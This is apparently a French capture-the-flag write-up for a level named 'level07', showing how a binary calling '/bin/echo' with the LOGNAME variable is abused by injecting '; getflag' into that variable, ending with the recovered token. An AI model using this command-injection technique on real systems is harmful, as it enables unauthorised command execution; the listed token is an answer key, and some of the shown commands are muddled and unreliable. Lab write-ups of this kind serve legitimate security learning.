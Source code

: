# level07

1. Fichiers trouvés dans `~/` :

```bash
./level07
```

2) Analyse du binaire :

```bash
strings level07
```

Une ligne retient notre attention :

```bash
/bin/echo %s 
```

Le script affiche donc une variable qui se nomme `level07`. Nous allons grep toutes les variables d'environnement qui se nomment `level07`, et deux sont retenues :

```bash
USER=level07
LOGNAME=level07
```

3) Exploitation : renommer `LOGNAME` pour échapper `echo` et chaîner `getflag`.

```bash
LOGNAME=; getflag
```

4) Exécution : lancer `./level07` afin d'exécuter la commande `echo` prévue, puis `; getflag`.

```bash
echo $LOGNAME; getflag
```

5) Token découvert :

Le token est `fiumuikeil55xe9cu4dood66h`.
